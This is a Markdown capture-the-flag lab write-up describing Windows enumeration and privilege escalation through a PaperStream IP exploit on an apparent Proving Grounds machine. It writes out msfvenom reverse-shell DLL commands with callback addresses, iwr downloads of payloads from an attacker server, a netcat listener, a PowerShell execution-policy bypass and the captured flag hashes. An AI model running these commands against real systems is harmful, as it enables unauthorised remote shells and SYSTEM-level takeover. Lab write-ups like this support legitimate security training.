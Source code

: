 ## Local Enumeration
- Ran `type C:\Users\tony\desktop\local.txt` to print `988d8a67a549358c69a1cab88b594883`
![[Cybersecurity-Resources/images/Pasted image 20241029154446.png]]
- Navigated to `C:\Windows\system32` and ran `whoami /priv` - identified `SeImpersonatePrivilege` is `Enabled`
![[Cybersecurity-Resources/images/Pasted image 20241029154741.png]]
- Ran `systeminfo` and identified `Windows 10 Build 18363` on `x64` architecture
![[Cybersecurity-Resources/images/Pasted image 20241029155127.png]]
- Ran `set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;` to fix error with file path
![[Cybersecurity-Resources/images/Pasted image 20241029180455.png]]
- Ran `powershell -ep bypass` to start `Powershell` with scripts allowed

---
# Privilege Escalation
## Paperstream Exploit #1
- Enumerated host programs and identified `Paperstream IP`
![[Cybersecurity-Resources/images/Pasted image 20241029181039.png]]
- Ran `searchsploit "Paperstream"` - identified & copied exploit `49382.ps1`
![[Cybersecurity-Resources/images/Pasted image 20241029181138.png]]
- Updated `49382.ps1` to save `shell.dll` to `C:\Users\tony\`
![[Cybersecurity-Resources/images/Pasted image 20241029181316.png]]
- Ran `msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.162 LPORT=4444` to generate `shell.dll` file
- Ran `iwr -uri http://192.168.45.162/shell.dll -outfile shell.dll` & `iwr -uri http://192.168.45.162/49382.ps1 -outfile paperstreamexploit.ps1` to copy `shell.dll` & `paperstreamexploit.ps1` into `C:\Users\tony` directory from http server
![[Cybersecurity-Resources/images/Pasted image 20241029181732.png]]
- Started netcat listener and ran `.\paperstreamexploit.ps1` - payload triggered but no reverse shell received
![[Cybersecurity-Resources/images/Pasted image 20241029181902.png]]
## Paperstream Exploit #2
- Referenced https://benheater.com/proving-grounds-jacko/
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.169 LPORT=445 -f dll -a x86 --platform windows -e x86/xor_dynamic -b '\x00' -o 0xBEN_privesc.dll` to create new `dll` on x86 architecture with `xor_dynamic`
![[Cybersecurity-Resources/images/Pasted image 20241030204712.png]]
- Updated `49382.ps1` to reflect change in `dll` name
- Ran `iwr -uri http://192.168.45.169/0xBEN_privesc.dll -outfile 0xBEN_privesc.dll` to copy `0xBEN_privesc.dll` onto target (via python3 http server)
![[Cybersecurity-Resources/images/Pasted image 20241030204954.png]]
- Ran `iwr -uri http://192.168.45.169/49382.ps1 -outfile 49382.ps1` to copy `49382.ps1` onto target (via python3 http server)
![[Cybersecurity-Resources/images/Pasted image 20241030205106.png]]
- Started netcat listener on port `445` and then ran `.\49382.ps1` to execute exploit - received shell as `NT-System`
![[Cybersecurity-Resources/images/Pasted image 20241030205222.png]]
![[Cybersecurity-Resources/images/Pasted image 20241030205245.png]]
- Ran `type C:\Users\administrator\desktop\proof.txt` to print `b32d47218e9665058f06833a497a4154`
![[Cybersecurity-Resources/images/Pasted image 20241030205406.png]]